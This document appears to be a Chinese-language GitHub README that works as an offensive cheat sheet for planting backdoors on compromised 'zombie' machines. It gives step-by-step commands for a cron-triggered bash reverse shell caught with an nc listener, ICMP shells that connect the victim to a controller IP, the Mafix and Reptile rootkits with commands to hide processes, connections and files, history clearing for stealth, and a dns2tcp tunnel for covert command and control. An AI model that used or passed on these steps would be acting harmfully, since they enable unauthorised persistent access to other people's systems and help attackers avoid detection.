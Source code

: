 # backdoor

****************************************************
1、 Bash TCP反弹后门<br>
bash_tcp_backdoor.sh<br>
vim /etc/crontab<br>
*/1 * * * * root /root/ok.sh<br>
或<br>
crontab -e<br>
*/1 * * * *  /root/ok.sh<br>
systemctl restart crond<br>
控制机执行<br>
nc -l -v -p 5353

****************************************************
2、icmp shell无端口后门<br>
原文：https://www.cnblogs.com/bravexz/p/9761411.html<br>
wget http://prdownloads.sourceforge.net/icmpshell/ish-v0.2.tar.gz<br>
tar -zxvf ish-v0.2.tar.gz<br>
cd ISHELL-v0.2/<br>
make && make linux<br>
make linux<br>
肉鸡192.168.1.28上执行命令：<br>
./ishd -i 555 -t 0 -p 1099 &<br>
控制机执行：<br>
./ish -i 555 -t 0 -p 1099 192.168.1.28<br>
命令解释：<br>
-i 指定ID，标识自己的请求<br>
-t 指定icmp数据的类型 <br>
-p 指定 icmp 数据 包大小 ,一般 情况下 1024 即可<br>

****************************************************
3、icmpsh后门<br>
pip install impacket<br>
git clone https://github.com/inquisb/icmpsh.git<br>
cd icmpsh<br>
./run.sh<br>
控制端运行：<br>
python icmpsh_m.py 192.168.1.28 192.168.1.41<br>
#./icmpsh-m.py <控制机IP> <肉鸡IP><br>
sz icmpsh.exe到本地<br>
C:\>icmpsh.exe -t 192.168.1.28 -d 600 -b 20 -s 256   //指向控制机<br>

https://blog.csdn.net/Fly_hps/article/details/80627628<br>
https://www.jianshu.com/p/3bdf8c5557e8<br>
https://www.cnblogs.com/bravexz/p/9761411.html<br>
https://github.com/sevck/icmp_Tunnel<br>
https://blog.csdn.net/qq_33020901/article/details/81773737<br>

****************************************************
4、mafix.tar.gz  rootkit后门<br>
Mafix是一款常用的轻量应用级别Rootkits，是通过伪造ssh协议漏洞实现让攻击者远程登陆的，特点是配置简单并可以自定义验证密码和端口号。
kali 下测试通过，centos7不兼容<br>
wget https://github.com/synjkc/backdoor/blob/master/mafix.tar.gz<br>
tar -zxvf mafix.tar.gz<br>
cd mafix<br>
./root xiaoma 9999<br>

安装rootkit 命令：./root 密码  端口   (如: ./root xiaoma 9999  接着用ssh连接它的9999端口，用户名是root，密码为xiaoma)
安装完成后会自动删除目录，为了隐蔽，用 history -c 清除下命令就行了<br>
控制端执行： ssh ip -p9999

*******************************************************************<br>
5、Reptile Linux rootkit后门<br>
肉鸡上安装：<br>
git clone https://github.com/f0rb1dd3n/Reptile.git<br>
cd Reptile<br>
./setup.sh install<br>
卸载<br>
./setup.sh remove<br>
隐藏进程: /reptile/reptile_cmd hide <pid> <br>
显示进程: /reptile/reptile_cmd show <pid><br>
隐藏udp: /reptile/reptile_cmd udp <IP> <port> hide <br>
显示udp: /reptile/reptile_cmd udp <IP> <port> show<br>
隐藏tcp: /reptile/reptile_cmd tcp <IP> <port> hide <br>
显示tcp: /reptile/reptile_cmd tcp <IP> <port> show<br>
还可以隐藏文件 所有包含 reptile 这个字符的文件会被隐藏，这个字符可以在配置文件中修改。<br><br>

Kali上安装控制端<br>
./setup.sh client<br>
项目地址：https://github.com/f0rb1dd3n/Reptile<br>
https://carlstar.club/2019/04/09/rep/#on-vulnerable-ubuntu-192-168-5-148<br>
https://3hack.com/tools/85.html<br>
*******************************************************************<br>
6、服务端Kali 192.168.1.28,自带dns2tcp工具<br>
设置A记录 dns28.xxx.com到Kail<br>
服务端设置<br>
cat /etc/dns2tcpd.conf<br>
listen = 0.0.0.0<br>
port = 53<br>
user = nobody<br>
chroot = /tmp<br>
domain = dns28.xxx.com<br>
resources = c2:127.0.0.1:5353 , ssh:127.0.0.1:22 , smtp:127.0.0.1:25<br>
服务端运行：root@kali:~# dns2tcpd -f /etc/dns2tcpd.conf -F -d 1<br><br>
https://github.com/synjkc/backdoor/blob/master/dns2tcpc_client_win.zip<br>
客户端运行：<br>
dns2tcpc -r ssh -z dns28.xxx.com 192.168.1.28 -l 8888 -d 2<br><br>
本地win10运行[c:\~]$ ssh 127.0.0.1 2222，即可连接到Kali<br>
